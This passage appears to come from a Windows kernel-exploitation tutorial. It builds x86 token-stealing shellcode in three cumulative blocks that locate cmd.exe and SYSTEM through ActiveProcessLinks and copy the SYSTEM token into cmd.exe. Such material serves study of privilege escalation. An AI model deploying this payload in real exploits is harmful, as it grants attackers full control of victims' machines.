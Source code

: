 ``` x86asm
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]              ; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]              ; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
```

Then, find the `_EPROCESS` structure for the `SYSTEM` process:

``` x86asm
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]              ; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]              ; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]              ; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4                ; Check if this entry belongs to PID 4 = SYSTEM
jne find_system                         ; If not, go to the next entry of ActiveProcessLinks
```

We then must move the token from `SYSTEM` to `cmd.exe`:

``` x86asm
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]              ; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]              ; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]              ; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4                ; Check if this entry belongs to PID 4 = SYSTEM
jne find_system                         ; If not, go to the next entry of ActiveProcessLinks
add ecx, 0x0fc                          ; ECX now points to the Token of SYSTEM
mov ecx, [ecx]                          ; Copy contents of Token to ECX
mov [edi+0x0fc], ecx                    ; Move the Token of SYSTEM to cmd.exe
```
